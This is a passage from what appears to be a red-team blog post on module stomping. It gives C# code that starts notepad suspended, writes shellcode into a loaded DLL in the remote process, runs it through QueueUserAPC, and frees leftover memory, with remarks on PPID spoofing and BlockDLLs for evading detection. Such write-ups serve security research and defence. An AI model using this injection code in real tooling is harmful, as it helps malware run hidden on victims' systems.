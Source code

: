 ### Wrapping Up

Now that we have a reliable way to load the desired DLL, find a memory location to write to and execute shellcode, let's see if there's anything we can do to tidy up some of the other indicators.

Some questions I had in my mind were:

- Can we free the memory regions in the remote process containing the string "xpsservices.dll" and the shim shellcode?
- Can we use something other than `CreateRemoteThread` to trigger execution?

#### VirtualFreeEx

Freeing the memory regions is easy to do with the [VirtualFreeEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualfreeex) API.

Conveniently we only need to provide the base address returned by `VirtualAllocEx` without having to worry about the region size.  The API will take care of everything.

```c#
Win32.VirtualFreeEx(process.Handle, allocModule, 0, Win32.AllocationType.Release);
```

This screenshot shows one of these regions that will be freed.

![](/images/module-stomping/virtualfree.png "Region to be freed")

#### QueueUserAPC

Replacing the process startup code with the [CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) API allows us to do a few additional things - namely start it in a suspended state, PPID spoof and add a process mitigation policy (ala BlockDLLs).  It also gives us an easy handle to the main thread.

```c#
// Start notepad in a suspended state
var si = new Win32.STARTUPINFO();
si.cb = Marshal.SizeOf(si);
si.dwFlags = STARTF_USESHOWWINDOW;

var pa = new Win32.SECURITY_ATTRIBUTES();
var ta = new Win32.SECURITY_ATTRIBUTES();

Win32.CreateProcess(
    null,
    "notepad",
    ref pa,
    ref ta,
    false,
    CREATE_SUSPENDED,
    IntPtr.Zero,
    null,
    ref si,
    out Win32.PROCESS_INFORMATION pi);

// [...snip...] //

// Write shellcode into module
Win32.WriteProcessMemory(pi.hProcess, remoteFuncAddress, sc, (uint)sc.Length, out UIntPtr _);

// Queue the APC call
Win32.QueueUserAPC(remoteFuncAddress, pi.hThread, IntPtr.Zero);

// Result the main thread
Win32.ResumeThread(pi.hThread);

```

